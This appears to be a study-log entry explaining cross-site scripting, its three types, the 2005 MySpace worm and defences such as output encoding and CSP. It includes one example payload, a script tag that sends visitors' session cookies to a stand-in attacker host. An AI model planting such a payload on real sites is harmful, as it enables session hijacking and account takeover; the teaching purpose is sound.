

# Day 05 - Cross-Site Scripting (XSS)

## What It Is
Cross-Site Scripting (XSS) is a web attack where malicious JavaScript is injected into a webpage that other users then load in their browsers. Unlike SQL Injection which targets the database, XSS targets the users visiting the site. The attacker's script runs in the victim's browser with full trust of the legitimate site.

## How It Works
Web apps often take user input and display it back on the page — comment sections, search bars, profile fields. If that input isn't sanitized before being rendered, an attacker can inject a script tag and the browser will execute it as legitimate code.



Simple example - a comment box:
```html
<!-- Attacker posts this as a comment -->
<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>

<!-- When any user loads the page, their browser executes it -->
<!-- Their session cookie gets sent to the attacker's server -->
```

There are three main types:
- Stored XSS: malicious script is saved in the database and served to every user who visits (most dangerous)
- Reflected XSS: script is embedded in a URL, only executes when victim clicks that specific link
- DOM-based XSS: script manipulates the page's DOM directly in the browser, never touches the server

## Real-World Example
In 2005, a MySpace user named Samy Kamkar created a self-replicating XSS worm. He injected a script into his profile that automatically added him as a friend and copied itself to every visitor's profile. Within 20 hours it had spread to over one million profiles and took MySpace down. It's still one of the most famous XSS demonstrations ever.

## Why It Matters
From an attacker's side, XSS can steal session cookies (full account takeover), redirect users to phishing pages, log keystrokes, take webcam screenshots, or deface the site entirely. Stored XSS is especially dangerous because it runs automatically for every visitor.

From a defender's side, the fix is output encoding - any user-supplied data being rendered on the page must have special characters like `<`, `>`, `"` converted to their HTML entities so the browser treats them as text not code. Content Security Policy (CSP) is another strong defense that tells the browser which scripts are allowed to run.
On a practical level - an attacker finds a stored XSS vulnerability in a forum. They post a comment with a hidden script that steals session cookies. Every user who reads that thread gets their session hijacked, no clicking required.
